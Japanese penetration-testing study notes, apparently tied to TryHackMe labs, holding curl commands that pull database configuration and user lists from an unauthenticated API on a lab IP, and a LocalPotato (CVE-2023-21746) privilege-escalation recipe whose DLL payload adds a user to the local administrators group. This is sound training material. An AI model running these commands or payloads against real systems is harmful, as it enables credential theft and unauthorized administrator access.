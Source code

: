 ```sh
# アプリケーション設定（DB接続情報など）
curl -v http://10.10.120.177/api/index.php/v1/config/application?public=true

# ユーザー
curl -v http://10.10.120.177/api/index.php/v1/users?public=true
```

## CVE-2023-21746 (LocalPotato)

https://tryhackme.com/room/localpotato

https://github.com/decoder-it/LocalPotato

- 2023 年 1 月の月例パッチで修正済
- ターゲットマシンに任意のファイルを書き込むことが出来る脆弱性。
- [DLL ハイジャック（LPE via StorSvc）](https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc)と組み合わせることで、権限昇格を実現する。

`SprintCSP.dll` `RpcClient.exe` のコンパイルが必要。

### 準備

#### RpcClient.exe

storsvc_c.c

```c
#define WIN10
//#define WIN11
//#define WIN2019
//#define WIN2022
```

#### SprintCSP.dll

main.c

例：現在のユーザーを管理者グループに追加する。

```c
void DoStuff() {

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}
```
